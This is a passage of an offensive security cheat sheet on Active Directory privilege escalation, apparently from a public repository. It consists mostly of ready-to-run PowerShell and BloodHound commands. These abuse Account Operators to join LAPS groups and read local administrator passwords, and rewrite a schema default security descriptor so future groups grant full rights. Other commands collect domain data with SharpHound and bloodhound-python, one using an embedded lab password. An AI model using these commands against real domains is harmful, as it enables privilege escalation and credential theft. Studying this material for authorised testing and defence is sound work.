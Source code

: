 Or use Process Monitor and check for "Name Not Found".

## Printers

## Active directory
### Targeted groups
#### Backup operators
Can read all the machines registry.
Can backup the entire file system of a machine (DC included) and have full read/write rights on the backup
Can read and rights all the domain and DC GPOs with robocopy in backup mode.
#### Server operators (NA)
 Can authenticate on the DC.
#### Account operators (NA)
Can add and modify all the non admin users and groups. Since **LAPS ADM** and **LAPS READ** are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password.
```
# Add user to LAPS groups
Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain "domain.local"
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain "domain.local"

# Read LAPS password
Get-DomainComputer <computername> -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```
#### Schema admin
These group members can change the schema of the AD. It means they can change the ACLs on the objects that will be created **IN THE FUTUR**. If we modify the ALCs on the group object, only the futur group will be affected, not the ones that are already present.

Give full rights to a user on the groups:
```
$creds = New-Object System.Management.Automation.PSCredential ("domain.local\user1", (ConvertTo-SecureString "Password" -AsPlainText -Force)); Set-ADObject -Identity "CN=group,CN=Schema,CN=Configuration,DC=domain,DC=local" -Replace @{defaultSecurityDescriptor = 'D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPLCLORC;;;AU)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;S-1-5-21-854239470-2015502385-3018109401-52104)';} -Verbose -server dc.domain.local -Credential $creds
```
When a new group is created we can add any user to it with the user who has full rights
```
$User = Get-ADUser -Identity "CN=user1,CN=Users,DC=domain,DC=local"; $Group = Get-ADGroup -Identity "CN=new_admingroup,CN=Users,DC=domain,DC=local"; $creds = New-Object System.Management.Automation.PSCredential ("domain.local\user1", (ConvertTo-SecureString "Password" -AsPlainText -Force)); Add-ADGroupMember -Identity $Group -Members $User -Server dc.domain.local -Credential $creds
```
### Bloodhound
```
# Using exe ingestor
.\SharpHound.exe --CollectionMethod All --LDAPUser <UserName> --LDAPPass <Password> --JSONFolder <PathToFile>
    
# Using powershell module ingestor
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All  -LDAPUser <UserName> -LDAPPass <Password> -OutputDirectory <PathToFile>

# Python
bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
# through proxychain
```
